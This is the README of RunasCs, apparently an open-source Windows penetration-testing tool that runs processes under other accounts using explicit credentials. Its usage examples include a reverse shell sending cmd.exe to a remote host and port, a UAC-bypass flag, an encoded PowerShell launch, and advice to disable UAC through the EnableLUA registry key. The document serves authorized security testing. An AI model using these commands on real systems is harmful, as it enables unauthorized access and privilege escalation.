 ### RunasCs

----

*RunasCs* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved (from a pentest perspective) and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasCs* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUser()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``


### Requirements

----

.NET Framework >= 2.0


### Usage

----

```console
C:\ProgramData>.\RunasCs_net2.exe --help

RunasCs v1.3 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--create-profile]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and crateProcess functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     command supported by cmd.exe if process_timeout>0
                            commandline for the process if process_timeout=0
Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain.
                            Default: ""
    -f, --function create_process_function
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatically according to your privileges.
                            0 - CreateProcessAsUserA
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
    -l, --logon-type logon_type
                            the logon type for the spawned process.
                            Default: "8"
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this option sets the process timeout to 0.
    -t, --timeout process_timeout
                            the waiting time (in ms) for the created process.
                            This will halt RunasCs until the spawned process
                            ends and sent the output back to the caller.
                            If you set 0 no output will be retrieved and cmd.exe
                            won't be used to spawn the process.
                            Default: "120000"
    -p, --create-profile
                            if this flag is specified RunasCs will force the
                            creation of the user profile on the machine.
                            This will ensure the process will have the
                            environment variables correctly set.
                            NOTE: this will leave some forensics traces
                            behind creating the user profile directory.
                            Compatible only with -f flags:
                                1 - CreateProcessWithTokenW
                                2 - CreateProcessWithLogonW
    -b, --bypass-uac     
                            if this flag is specified RunasCs will try a UAC
                            bypass to spawn a process without token limitation
                            (not filtered).

Examples:
    Run a command as a specific local user
        RunasCs.exe user1 password1 whoami
    Run a command as a specific domain user and interactive logon type (2)
        RunasCs.exe user1 password1 whoami -d domain -l 2
    Run a background/async process as a specific local user,
        RunasCs.exe user1 password1 "%COMSPEC% powershell -enc..." -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.24:4444
    Run a command simulating the /netonly flag of runas.exe
        RunasCs.exe user1 password1 whoami -d domain -l 9
    Run a command as an Administrator bypassing UAC
        RunasCs.exe adm1 password1 "whoami /all" --bypass-uac
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 8 (*NetworkCleartext*). 

**NetworkCleartext** logon type is the one with widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package.

If you set *Interactive* (2) logon type you will face some *UAC* restriction problems.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtered limitation.

By default, the calling process (*RunasCs*) will wait until the end of the execution of the spawned process and will use
``cmd.exe`` to manage *stdout* and *stderr*. If you need to spawn a background or async process, i.e. spawning a reverse shell,
you need to set the parameter ``-t timeout`` to ``0``. In this case the process will be spawned without using ``cmd.exe``
and *RunasCs* won't wait for the end of the execution.

### References

----

* https://decoder.cloud/2018/01/13/potato-and-tokens/
* https://github.com/dahall/Vanara
* https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85)
* https://support.microsoft.com/en-us/help/190351/how-to-spawn-console-processes-with-redirected-standard-handles
* https://support.microsoft.com/en-us/help/327618/security-services-and-the-interactive-desktop-in-windows
* https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/


### Credits

-----

* [@decoder](https://github.com/decoder-it)
* [@qtc-de](https://github.com/qtc-de)
* [@winlogon0](https://twitter.com/winlogon0)